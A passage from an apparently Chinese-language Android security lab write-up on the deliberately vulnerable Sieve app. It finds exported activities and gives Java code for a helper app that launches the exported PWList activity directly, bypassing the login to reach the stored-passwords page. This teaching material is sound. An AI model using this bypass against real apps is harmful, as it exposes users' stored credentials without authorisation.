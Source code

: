 可以看到除了启动activity之外，还有两个activity导出为true

![](img/jeb分析sieve.png)

#### 实现越权绕过

使用adroid studio编写testseive应用，直接调用导出activity，实现越权绕过

```java
// 要调用的包名
String mPackageName="com.mwr.example.sieve";
// 要调用的activity
String mActivityName="com.mwr.example.sieve.PWList";
Intent intent=new Intent();
intent.setComponent(new ComponentName(mPackageName,mActivityName));
// 启动intent
startActivityForResult(intent,1);
```

![](img/android_studio实现越权绕过.png)

构建并运行testseive应用，可以看到能够直接进入“Your Passwords”页面，实现越权绕过

![](img/testsieve_1.png)
